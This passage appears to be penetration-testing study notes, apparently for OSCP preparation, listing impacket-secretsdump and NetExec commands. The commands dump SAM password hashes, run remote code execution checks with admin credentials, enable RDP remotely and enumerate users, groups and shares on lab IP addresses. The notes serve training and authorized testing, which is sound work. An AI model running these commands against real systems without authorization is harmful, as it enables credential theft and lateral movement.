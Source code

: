 #### Impacket-secretsdump

---

```bash
#Usage
impacket-secretsdump oscp.prep\foo:password@DC01

#If you have SAM and SYSTEM file, you can use secretsdump to read them 
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

- *dump sam using secretsdump*

<br>

#### NXC former CrackMapExec

---

```bash
     .   .
    .|   |.     _   _          _     _____
    ||   ||    | \ | |   ___  | |_  | ____| __  __   ___    ___
    \\( )//    |  \| |  / _ \ | __| |  _|   \ \/ /  / _ \  / __|
    .=[ ]=.    | |\  | |  __/ | |_  | |___   >  <  |  __/ | (__
   / /ॱ-ॱ\ \   |_| \_|  \___|  \__| |_____| /_/\_\  \___|  \___|
   ॱ \   / ॱ
     ॱ   ॱ

#dump sam on a Pwn3d machine
nxc smb  10.10.10.10 -u 'administrator' -p 'Sh0wAdminsL0ve' --local-auth --sam

Available Protocols to Own stuff with
  {rdp,ssh,smb,ftp,ldap,mssql,wmi,winrm,vnc}
#use ssh, smb, wmi,winrm to dump SAM

#Test code execution
nxc smb  10.10.10.10 -u 'administrator' -p 'Sh0wAdminsL0ve' -x 'dir' 

#remote enable rdp
sudo netexec smb 10.69.88.23 -u user -p password -M rdp -o ACTION=enable

#enumerate logged on users
nxc smb 172.16.5.125 -u user -p pass --loggedon-users

#enumerate shares
nxc smb 172.16.5.125 -u user -p pass --shares

#enumerate domain users
nxc smb 172.16.5.125 -u user -p pass --users
#enumerat domain groups
nxc smb 172.16.5.124 -u user -p pass --groups
```

<br>